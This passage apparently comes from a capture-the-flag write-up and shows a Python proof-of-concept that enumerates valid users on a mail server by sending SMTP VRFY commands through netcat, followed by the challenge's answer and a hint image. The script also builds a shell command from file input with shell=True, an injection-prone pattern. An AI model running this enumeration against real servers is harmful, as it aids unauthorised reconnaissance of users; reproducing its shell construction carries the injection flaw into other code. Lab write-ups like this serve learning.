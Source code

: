 ```
#!/usr/bin/python3
# Simple proof of concept to test VRFY command against emails in list
# by Ameer Pornillos
# https://ethicalhackers.club
# To use: 
# > python3 script_name.py emails.txt --host target.host

import argparse
import subprocess

# Function to verify email address using VRFY command
def verify_email_address(email_address, host="localhost", port=25):
    try:
        # Use netcat (nc) to connect to the mail server and send VRFY command
        nc_command = f"nc -w 1 {host} {port}"
        vrfy_command = f"VRFY {email_address}"
        result = subprocess.check_output(f"echo '{vrfy_command}' | {nc_command}", shell=True, stderr=subprocess.STDOUT)
        return result.decode("utf-8").strip()
    except subprocess.CalledProcessError as e:
        # Handle errors (e.g., if the email address is not valid)
        return e.output.decode("utf-8").strip()

# Parse command line arguments
parser = argparse.ArgumentParser(description="Verify email addresses using the VRFY command.")
parser.add_argument("emails_file", help="Path to the file containing email addresses")
parser.add_argument("--host", default="localhost", help="Mail server hostname or IP address (default: localhost)")
args = parser.parse_args()

# Read email addresses from the specified file and verify them
with open(args.emails_file, "r") as file:
    for line in file:
        email_address = line.strip()
        verification_result = verify_email_address(email_address, host=args.host)
        if "unknown" in verification_result.lower():
            print(f"Not valid user: {email_address}")
        else:
            print(f"Valid user found: {email_address}")
            break  # Stop the script if a valid user is found

```

TL;DR: The correct user is: **laughingman@rtv.local**

![](https://i.imgur.com/s1f3uju.png){: .mx-auto.d-block :}

By the way, if you tried to check the user information in the web app, you should see **"Data Exfiltration Techniques"**, which is a minor hint related to the challenge. (◕‿◕)

![](https://i.imgur.com/ehTP5Xf.png){: .mx-auto.d-block :}

